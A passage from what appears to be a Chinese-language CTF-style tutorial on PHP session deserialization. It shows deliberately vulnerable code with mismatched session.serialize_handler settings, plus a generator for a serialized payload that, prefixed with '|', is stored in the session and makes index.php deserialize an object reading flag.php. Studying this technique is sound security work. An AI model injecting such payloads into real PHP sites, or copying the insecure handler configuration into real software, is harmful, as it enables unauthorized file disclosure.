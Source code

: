 从而达到反序列化攻击的目的

`index.php`

```php
<?php
	ini_set('session.serialize_handler', 'php');

	session_start();

	class A {
		public $user = 'test.txt';

		function __wakeup() {
			echo "__wakeup<br/>";
		}

		function __destruct() {
			echo $this->filename;
		}
	}
```

`generate.php`

```php
<?php
    class A{
        public $filename = 'flag.php';
    }

    echo serialize(new A);
```

`session.php`

```php
<?php
	ini_set('session.serialize_handler', 'php_serialize');

	session_start();

	$_SESSION['test'] = $_REQUEST['test'];
	echo session_id();
```

首先通过 `generate.php`构造 `payload`

```
O:1:"A":1:{s:8:"filename";s:8:"flag.php";}
```

将 `O:1:"A":1:{s:8:"filename";s:8:"flag.php";}`前面加一个 `|`

即可将反序列化的值存入到 `session`中使 `index.php`反序列化

![php_unseriablize4](phpUnserialize/s4.png)
